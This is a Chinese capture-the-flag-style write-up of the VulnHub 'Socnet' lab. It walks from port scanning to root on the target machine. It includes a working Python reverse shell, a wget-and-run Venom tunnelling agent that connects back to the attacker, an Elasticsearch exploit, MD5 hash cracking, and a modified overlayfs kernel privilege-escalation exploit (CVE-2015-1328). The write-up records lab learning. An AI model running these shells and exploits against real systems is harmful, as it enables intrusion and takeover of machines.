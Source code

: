 ﻿---
title: Chapter1_Medium_Socnet
categories:
- Network_Security
- Vulnhub
- Chapter1
tags:
- Network_Security
- Vulnhub
date: 2024-01-14 11:50:46
---


# Socnet 打靶学习记录（考研痛苦后的第一篇复健）

## 1. 过程记录

### 1.1 外围探测与信息收集

1. 同一内网下直接使用 arp-scan 来进行主机发现

2. nmap 扫描端口，发现其开放端口 5000：
    `nmap -Pn -sV 192.168.0.104 -p 1-65535`

3. Web 页面没有可以利用的点，从而进行目录扫描，最终发现 /admin 代码测试界面：
    `dirsearch -u http://192.168.0.104:5000`

4. 根据 nmap 结果，判断其是一个基于 Python 的 Web 程序，使用 Python 反弹（百度） WebShell：
    `nc -lvvp 4444 # 监听 4444 端口`

    ```python
    # Python 反弹 Shell 代码
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.0.2",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
    ```

### 1.2 内部信息收集

1. 进入系统后进行信息收集，发现是 docker 容器。判断是否真的是 docker 容器：

    1. `ls /.dockerenv` 文件是否存在
    2. `cat /proc/1/cgroup` 文件是否都是 docker 文件
        1. `/proc/1/cgroup` 的含义
        2. 存放的都是 docker 的 hash 值
2. 查看网络，发现还有内网地址，用 shell 脚本命令可以用来暂时探测 172 内网网段：
    `for i in $(seq 1 255); do ping -c 1 172.17.0.$i; done`

### 1.3 内网穿透与扫描

1. 想进一步进行渗透的话，需要内网穿透，这里使用 Venom 进行渗透。
    kali 监听 9999 并开启 http 服务：

    ```bash
    ./admin_linux_x64 -lport 9999
    python3 -m http.server 80
    ```

2. 靶机通过 wget 下载客户端程序，赋予权限并反向链接
    `wget http://192.168.0.2（kali 的 ip）/agent_linux_x64`

3. 靶机赋予权限并反向链接
    ```bash
    chmod +x agent_linux_x64
    ./agent_linux_x64 -rhost 192.168.0.2（kali ip） -rport 9999
    ```

4. kali 进入节点中并开启 socks5 代理：
    ```bash
    show # 查看节点
    goto 1 # 进入节点 1
    socks 1080 # 监听 1080 端口
    ```

5. 使用 proxychains4 网络代理工具，设置代理端口
    `vim /etc/proxychains4.conf`
    同时别忘了最后一行改为：
    `socks5 127.0.0.1 1080`

6. 接着就是扫内网了：
    `proxychains nmap -Pn -sV -p 1-65535 172.17.0.1-3`

### 1.4 横向移动与 EXP 的使用

1. 通过浏览器设置 socks5 代理访问 172.17.0.1:5000 可知这个 ip 是 docker 对内 ip。 最终172.17.0.3 容器中的 9200 端口开放了 Elasticsearch REST API 服务，运用 metasploit 找 exp 进行攻击。
    `searchsploit Elasticsearch`

2. 先尝试第一个攻击脚本：
    ```bash
    cp /usr/share/exploitdb/exploits/linux/remote/36337.py /home/hacker # 先将 exp 拷贝出来
    # 查看 exp 发现是 python2 的脚本，因此使用 python2 执行
    python2 36337.py
    ```

3. 拿到第二个容器的 root 权限，信息收集后，看到其 passwords 文件中有用户名和密码的 hash 值，需要进行 MD5 破解。

4. 破解后，用密码通过 ssh 登录到靶机（注意这是已经不是在容器中了，而是在靶机中）：
    `ssh john@192.168.0.104（靶机 ip）`

### 1.5 提权与 EXP 的修改

1. 提权

    1. 先试试 sudo su
    2. 利用内核提权

2. 利用内核提权：
      `search linux 3.13`

3. 还是先查看 exp 的使用方法，简略阅读 exp 源码，然后执行。（这里使用的是 37292（Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation），对于 C 语言的 exp，靶机没有 gcc，kali 需要编译成 elf 文件然后传过去。

4. 传过去执行还是报错，源码中其实有段代码：
    `lib = system("gcc -fPIC -shared -o....")`
    exp 过程中使用到了 gcc，而靶机本身是没有 gcc 的，因此需要手动执行，并将文件放到靶机对应的地方。

5. 修改 exp，为：
      ![image-20240108115350035](image-20240108115350035.png)
      将其中涉及 gcc 编译生成 ofs-lib.so 共享文件的代码给删掉。

6. 接着 `locate ofs-lib.so` 查看 kali 上是否已经有该文件，没有就按照原代码那样生成一个 ofs-lib.so。

7. 编译修改后的 37292，将生成的 exp 和 ofs-lib.so 传到靶机上，同时注意要将 ofs-lib.so 放到靶机的 tmp 目录：
    ```bash
    gcc 37292.c -o exp
    cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so . # 将 ofs-lib.so 拿过来
    # 通过 http 服务，用 wget 将 exp 和 ofs-lib.so 传到靶机的 /tmp 上
    # 靶机执行：
    chmod +x exp
    ./exp
    ```

    PS：[高版本下 kali gcc 的 glibc 指定版本的编译问题](#2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）)

## 2. 知识点总结

### 2.1 一些细节

1. 同一内网下 arp 的扫描要更快。
2. docker 容器的判断。
3. Venom 内网穿透工具的使用
4. 每次使用 EXP 之前尽量大概浏览一下 EXP 的源码

### 2.2 简单总结一下渗透流程

1. 扫端口和服务，站点的信息收集
2. 访问页面查看利用点、路径爆破
3. 内网穿透与扫描，横向移动与容器逃脱
4. 提权

### 2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）

  1. 报错需要 GLIBC_2.34，那就去下载 GLIBC_2.34。

  2. 解决方法的来源：

      > https://blog.csdn.net/weixin_65527369/article/details/127973141
      >
      > https://blog.csdn.net/weixin_49764009/article/details/124970461

  3. 先下载 glibc-all-in-one 工具：
      `git clone https://github.com/matrix1001/glibc-all-in-one.git`

  4. 根据工具的 readme 来使用（要在 root 的权限下执行）：
      ```bash
      cd glibc-all-in-one/
      python3 update_list # 更新列表
      cat list 或者 old_list # 查看可以安装的 glibc 版本
      ./download 具体版本的 gblic
      ```

  5. 配置 patchelf（如果需要 kali 执行 elf 文件时需要配置，这里是靶机执行，应该可以不用安装）
      ```bash
      git clone https://github.com/NixOS/patchelf.git
      cd patchelf
      ./bootstrap.sh 
      ./configure
      make
      make check
      sudo make install
      ```

  6. kali 指定 glibc 版本并编译 poc：
      ```bash
      gcc -Wl,-rpath="/tmp/exp_package/2.34-0ubuntu3_amd64/",-dynamic-linker="/tmp/exp_package/2.34-0ubuntu3_amd64/ld-linux-x86-64.so.2" -s 37292.c -o exp # 注意没有空格，-rpath 和 -dynamic-linker 之间不能有空格！
      ```

  7. 注意编译链接 so 的路径是绝对路径，因此靶机上也要有相应的文件路径：
      ```bash
      # 靶机上
      mkdir /tmp/exp_package # 要求 so 文件路径保持一致
      cd /tmp/exp_package
      wget -r -c -nH -np http://192.168.0.2(kali)/2.34-0ubuntu3_amd64 # 把整个文件夹都下载下来
      chmod +x -R ./2.34-0ubuntu3_amd64 # 将 glibc 所有文件的权限进行修改，不然无法执行 exp
      ```

  8. 这时再执行 exp 即可。

  9. TODO: gcc 的 `-rpath` 和 `-dynamic-linker` 应该可以使用相对路径。
